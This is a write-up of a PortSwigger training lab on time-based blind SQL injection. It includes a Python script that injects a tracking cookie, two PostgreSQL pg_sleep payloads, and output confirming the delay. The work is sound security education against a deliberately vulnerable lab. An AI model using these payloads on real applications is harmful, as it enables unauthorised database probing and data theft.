 # Blind SQL injection with time delays

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays), you'll learn: Blind SQL injection with time delays! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a 10 second delay.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020221209022117.png)

**Tracking cookie:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020221209022147.png)

**In the previous labs, we found that there is a blind SQL injection vulnerability in the tracking cookie.**

**For the sake of automation, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from time import time
import urllib.parse

def main():
	url = 'https://0a940002030b0daec0a4e9a00011002f.web-security-academy.net/'

	payload = """PAYLOAD_HERE"""
	finalPayload = urllib.parse.quote(payload)

	cookie = {
		'session': 'YOUR_SESSIONID',
		'TrackingId': finalPayload
	}

	startTime = time()
	requests.get(url, cookies=cookie)
	endTime = time()
	finalTime = endTime - startTime

	if finalTime >= 10:
		print(f'[+] Payload triggered, slept for {finalTime:.2f}s')
	else:
		print(f'[-] Payload didn\'t trigger, slept for {finalTime:.2f}s')

if __name__ == '__main__':
	main()
```

**To trigger a Time-Based SQL injection, we use the following payloads:** (From [PortSwigger's SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet))

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020221209023003.png)

**After some fumbling around, I found PostgreSQL time delay payload works:**
```py
# Payload 1:
payload = """';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""

# Payload 2:
payload = """';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""
```

```
# Payload 1:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-13]
└─# python3 exploit.py
[+] Payload triggered, slept for 11.27s

# Payload 2:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-13]
└─# python3 exploit.py
[-] Payload didn't trigger, slept for 0.92s
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020221209023126.png)

# What we've learned:

1. Blind SQL injection with time delays
